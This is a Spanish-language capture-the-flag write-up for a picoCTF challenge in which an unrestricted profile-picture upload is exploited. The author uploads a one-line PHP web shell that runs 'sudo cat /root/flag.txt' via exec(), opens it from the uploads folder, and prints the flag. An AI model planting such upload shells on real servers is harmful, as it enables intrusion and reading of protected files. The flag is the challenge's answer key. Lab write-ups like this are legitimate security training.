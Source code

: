 # **Descripción**

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:53566/)!
# **Solución**

Al ingresar al sitio notamos que es un formulario en el cual debemos subir un archivo, intento subir cualquier archivo y muestra lo siguiente:

```
Sorry, there was an error uploading your file.
```
Podemos notar en el URL que se sube un archivo php

```
http://standard-pizzas.picoctf.net:53566/upload.php
```
Por lo cual haremos un archivo php para ingresar al root.

Se crea un archivo con extension PHP para mostrar la bandera en la carpeta root.

```nano
<?php echo exec("sudo cat /root/flag.txt");?>
```
Lo guardo como shell.php y lo subo.

Una vez subido, nos muestra lo siguiente.

```
The file shell.php has been uploaded Path: uploads/shell.php
```
Ahora accedemos a esa liga de uploads en la página dada.

```URL
http://standard-pizzas.picoctf.net:53566/uploads/shell.php
```
Dándonos así la bandera.

```
picoCTF{wh47_c4n_u_d0_wPHP_d698d800}
```
# **Notas adicionales**

# **Referencias**

